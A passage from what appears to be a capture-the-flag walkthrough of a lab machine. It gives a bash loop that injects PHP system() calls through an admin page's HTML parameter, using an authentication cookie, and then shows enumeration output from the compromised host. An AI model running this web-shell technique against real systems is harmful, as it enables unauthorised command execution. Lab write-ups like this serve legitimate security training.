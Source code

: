 ```

#!/bin/bash

while :
do
    echo -n "calamity> "
    read cmd
    if [ "$cmd" = "exit" ]; then exit; fi
    curl -s -G http://10.10.10.27/admin.php --data-urlencode "html=<?php system(\"$cmd\"); ?>" --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/    html>/ d'
done

```

It will print a prompt and then read into the variable `$cmd`. If `$cmd` is “exit”, it quits. Then it will `curl` passing in the command, and loop.

This shell won’t keep state or allow me to change directories, but it works well enough to do some enumeration:

```

root@kali# rlwrap ./webshell.sh 
calamity> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
calamity> pwd 
/var/www/html

```

I’ll run with `rlwrap` to get up arrow key for previous command.

### Enumeration

There’s one user with a home directory on the box:

```

calamity> ls -la /home
total 12
drwxr-xr-x  3 root   root   4096 Jun 27  2017 .
drwxr-xr-x 22 root   root   4096 Jun 29  2017 ..
drwxr-xr-x  7 xalvas xalvas 4096 Jun 29  2017 xalvas

```

In there, I can see `user.txt`, as well as a few other files:

```

calamity> ls -la /home/xalvas
total 3180
drwxr-xr-x 7 xalvas xalvas    4096 Jun 29  2017 .
drwxr-xr-x 3 root   root      4096 Jun 27  2017 ..
-rw-r--r-- 1 xalvas xalvas     220 Jun 27  2017 .bash_logout
-rw-r--r-- 1 xalvas xalvas    3790 Jun 27  2017 .bashrc
drwx------ 2 xalvas xalvas    4096 Jun 27  2017 .cache
-rw-rw-r-- 1 xalvas xalvas      43 Jun 27  2017 .gdbinit
drwxrwxr-x 2 xalvas xalvas    4096 Jun 27  2017 .nano
-rw-r--r-- 1 xalvas xalvas     655 Jun 27  2017 .profile
-rw-r--r-- 1 xalvas xalvas       0 Jun 27  2017 .sudo_as_admin_successful
drwxr-xr-x 2 xalvas xalvas    4096 Jun 27  2017 alarmclocks
drwxr-x--- 2 root   xalvas    4096 Jun 29  2017 app
-rw-r--r-- 1 root   root       225 Jun 27  2017 dontforget.txt
-rw-r--r-- 1 root   root      1934 Aug 24 07:41 intrusions
drwxrwxr-x 4 xalvas xalvas    4096 Jun 27  2017 peda
-rw-r--r-- 1 xalvas xalvas 3196724 Jun 27  2017 recov.wav
```